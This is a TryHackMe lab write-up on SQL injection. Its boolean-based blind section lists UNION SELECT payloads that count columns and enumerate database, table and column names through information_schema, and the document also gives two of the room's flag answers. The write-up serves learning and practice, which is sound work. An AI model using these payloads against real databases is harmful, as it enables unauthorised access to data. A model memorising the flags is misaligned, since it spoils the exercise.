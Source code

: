 <p align="center">
   <img src="https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/sql_injection/SQLI_Cover.png" alt="SQL Injection Cover">
</p>

# SQL Injection

## Table of Contents

- [In-Band SQLi](#in-band-sqli)
- [Blind SQLi - Authentication Bypass](#blind-sqli---authentication-bypass)
- [Blind SQLi - Boolean Based](#blind-sqli---boolean-based)
- [Blind SQLi - Time Based](#blind-sqli---time-Based)

## In-Band SQLi

1. What is the flag after completing level 1?



   ><details><summary>Click for answer</summary></details>

## Blind SQLi - Authentication Bypass

1. What is the flag after completing level two? (and moving to level 3)

   

   ><details><summary>Click for answer</summary>THM{SQL_INJECTION_9581}</details>

## Blind SQLi - Boolean Based

1. What is the flag after completing level three?

   On level 3 we only get a true or false response to help us find the answer.
   
   We first need to find the number of columns using:
   
   ```cmd
   ' UNION SELECT 1,2,3;--
   
   Add as many columns as needed for the response to become true
   ```
   
   To enumerate the database names, we can use the following method:
   
   ```cmd
   ' UNION SELECT 1,2,3 WHERE database() LIKE '%';--
   
   Try combinations before the % until we find a name
   'sqli_three' this time
   ```
   
   To enumerate the table names within the database we use the following method:
   
   ```cmd
   ' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema="sqli_three" AND table_name LIKE '%';--
   
   Try combinations before the % until we find a name
   'users' this time
   ```
   
   To enumerate the columns within this table we use the following method:
   
   ```cmd
   ' UNION SELECT 1,2,3 FROM information_schema.columns WHERE table_schema="sqli_three" AND table_name="users" AND column_name LIKE '%';--
   
   Try combinations before the % until we find a name.
   
   Then add it as 'column_name!=...' to make sure we don't get a hit on it again
   
   `id`, `username`, and `password` we get this time.
   ```
   
   Next we need to find any existing username.

   ![SQLi Boolean](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/sql_injection/SQLI_Boolean_Based_Found.png)

   ><details><summary>Click for answer</summary>THM{SQL_INJECTION_1093}</details>

## Blind SQLi - Time Based

1. What is the final flag after completing level four?

   ><details><summary>Click for answer</summary></details>
